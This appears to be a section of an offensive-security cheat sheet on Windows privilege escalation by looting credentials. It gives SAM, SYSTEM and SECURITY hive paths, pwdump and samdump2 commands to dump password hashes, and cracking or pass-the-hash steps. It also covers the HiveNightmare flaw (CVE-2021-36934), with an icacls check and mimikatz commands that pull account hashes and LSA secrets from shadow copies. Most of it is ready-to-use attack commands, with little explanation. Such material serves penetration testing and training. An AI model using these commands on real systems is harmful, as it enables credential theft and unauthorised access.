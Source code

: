 ### EoP - Looting for passwords

#### SAM and SYSTEM files

The Security Account Manager (SAM), often Security Accounts Manager, is a database file. The user passwords are stored in a hashed format in a registry hive either as a LM hash or as a NTLM hash. This file can be found in %SystemRoot%/system32/config/SAM and is mounted on HKLM/SAM.

```powershell
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

Generate a hash file for John using `pwdump` or `samdump2`.

```powershell
pwdump SYSTEM SAM > /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt
```

Either crack it with `john -format=NT /root/sam.txt`, [hashcat](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Hash%20Cracking.md#hashcat) or use Pass-The-Hash.

#### HiveNightmare

> CVE-2021–36934 allows you to retrieve all registry hives (SAM,SECURITY,SYSTEM) in Windows 10 and 11 as a non-administrator user

Check for the vulnerability using `icacls`

```powershell
C:\Windows\System32> icacls config\SAM
config\SAM BUILTIN\Administrators:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Users:(I)(RX)    <-- this is wrong - regular users should not have read access!
```

Then exploit the CVE by requesting the shadowcopies on the filesystem and reading the hives from it.

```powershell
mimikatz> token::whoami /full

# List shadow copies available
mimikatz> misc::shadowcopies

# Extract account from SAM databases
mimikatz> lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM

# Extract secrets from SECURITY
mimikatz> lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY
```

